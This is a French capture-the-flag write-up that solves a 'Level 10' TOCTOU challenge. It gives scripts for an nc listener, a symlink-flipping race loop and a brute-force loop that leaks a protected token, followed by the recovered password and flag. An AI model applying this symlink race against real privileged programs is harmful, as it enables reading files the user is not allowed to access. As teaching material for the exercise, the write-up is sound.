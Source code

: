# Level 10

## Étapes pour résoudre le challenge

### 1. Introduction

Dans ce niveau, nous avons un exécutable `level10` et un fichier `token`. L'objectif est d'exploiter une vulnérabilité de type TOCTOU (Time Of Check to Time Of Use) pour accéder au contenu du fichier `token`.

L'exécutable `level10` prend deux arguments : un fichier et un hôte. Il vérifie si l'utilisateur a accès au fichier, se connecte à l'hôte sur le port 6969, et envoie le contenu du fichier à l'hôte.

L'exécutable `level10` utilise la fonction `access` pour vérifier les permissions de lecture sur le fichier avant de l'ouvrir. Cela crée une fenêtre de temps où un attaquant peut remplacer le fichier vérifié par un autre fichier (dans ce cas, le fichier `token`).

Nous allons exploiter cette fenêtre de temps en utilisant un lien symbolique qui alterne rapidement entre l'exécutable `level10` et le fichier `token`. En exécutant l'exécutable `level10` en boucle, nous pourrons éventuellement contourner la vérification de permission et obtenir le contenu du fichier `token`.

### 2. Préparation

#### 2.1. Écouter sur le port 6969

Créez un script `start_telnet_server.sh` pour écouter sur le port 6969 :

```bash
#!/bin/bash
# Telnet server

start_telnet_server()
{
    while true; do
        nc -l 6969
    done
}
start_telnet_server
```

Rendez le script exécutable et lancez-le :

```bash
chmod +x start_telnet_server.sh
./start_telnet_server.sh
```

#### 2.2. Créer une boucle pour alterner le lien symbolique

Créez un script `toggle_symlink.sh` pour créer une boucle qui alterne le lien symbolique entre `level10` et `token` :

```bash
#!/bin/bash
# Script to exploit a race condition between access & open.

while true; do
	ln -sf /tmp/fake_tok /tmp/tok ;
	ln -sf /home/user/level10/token /tmp/tok ;
done
```

Rendez le script exécutable et lancez-le dans un deuxième terminal :

```bash
chmod +x toggle_symlink.sh
./toggle_symlink.sh
```

#### 2.3. Exécuter `level10` en boucle

Créez un script `brute_force.sh` pour exécuter `level10` en boucle :

```bash
#!/bin/bash
# Random Brute force

while true; do
	/home/user/level10/level10 /tmp/tok 127.0.0.1 ;
done
```

Rendez le script exécutable et lancez-le dans un troisième terminal :

```bash
chmod +x brute_force.sh
./brute_force.sh
```

### 3. Identifier le mot de passe

En exécutant les commandes ci-dessus sur trois terminaux différents, vous pourrez voir apparaître le contenu du fichier `token` dans le premier terminal (celui écoutant sur le port 6969).

**Sortie attendue :**

```plaintext
woupa2yuojeeaaed06riuj63c
```

### 4. Connexion avec le mot de passe

Utilisez le mot de passe trouvé pour vous connecter en tant que `flag10` :

```bash
su flag10
password : woupa2yuojeeaaed06riuj63c
```

### 5. Obtenir le flag

Une fois connecté en tant que `flag10`, exécutez la commande `getflag` pour obtenir le flag.

```bash
getflag
```

**Sortie attendue :**

```plaintext
feulo4b72j7edeahuete3no7c
```

## Résumé

Pour résoudre ce challenge, nous avons exploité une vulnérabilité de type TOCTOU en utilisant un lien symbolique qui alterne rapidement entre l'exécutable `level10` et le fichier `token`. Cela nous a permis de contourner la vérification des permissions et d'obtenir le contenu du fichier `token`.

Le flag pour `level10` est : `feulo4b72j7edeahuete3no7c`.